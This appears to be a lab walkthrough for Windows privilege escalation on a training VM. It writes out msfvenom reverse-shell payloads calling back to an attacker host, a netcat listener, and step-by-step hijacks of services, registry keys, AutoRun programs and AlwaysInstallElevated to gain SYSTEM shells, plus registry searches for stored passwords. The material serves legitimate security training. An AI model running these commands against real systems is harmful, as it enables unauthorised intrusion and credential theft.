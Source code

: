 # Windows Privesc

### Connecting with RDP Port 3389

```text
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.34.38
```

### Connecting with winexe

```text
winexe -U 'admin%password' //10.10.107.212 cmd.exe
```

### Making SMB Server to send Rev-shell

Generate a reverse shell executable \(reverse.exe\) using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

On Windows \(update the IP address with your Kali IP\):

`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

Test the reverse shell by setting up a netcat listener on Kali:

`sudo nc -nvlp 53`

Then run the reverse.exe executable on Windows and catch the shell:

`C:\PrivEsc\reverse.exe`

![](.gitbook/assets/image%20%2840%29.png)

### Service Exploits - Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

![](.gitbook/assets/image%20%2841%29.png)

Note that the "user" account has the permission to change the service config \(SERVICE\_CHANGE\_CONFIG\).

Query the service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\):

`sc qc daclsvc`

![](.gitbook/assets/image%20%2842%29.png)

Modify the service config and set the BINARY\_PATH\_NAME \(binpath\) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

### Service Exploits - Unquoted Service Path

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

### Service Exploits - Weak Registry Permissions

Query the "regsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group \(essentially all logged-on users\):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

### Service Exploits - Insecure Service Executables

Query the "filepermsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc filepermsvc`

Using accesschk.exe, note that the service binary \(BINARY\_PATH\_NAME\) file is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start filepermsvc`

### Registry - AutoRuns

Query the registry for AutoRun executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin \(admin/password123\) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  
`rdesktop 10.10.64.1`

### Registry - AlwaysInstallElevated

Query the registry for AlwaysInstallElevated keys:

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

Note that both keys are set to 1 \(0x1\).

On Kali, generate a reverse shell Windows Installer \(reverse.msi\) using msfvenom. Update the LHOST IP address accordingly:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows \(use the SMB server method from earlier\).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### Passwords - Registry

\(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123\)

The registry can be searched for keys and values that contain the word "password":

`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges \(update the password with the one you found\):

`winexe -U 'admin%password' //10.10.107.212 cmd.exe`

\`\`

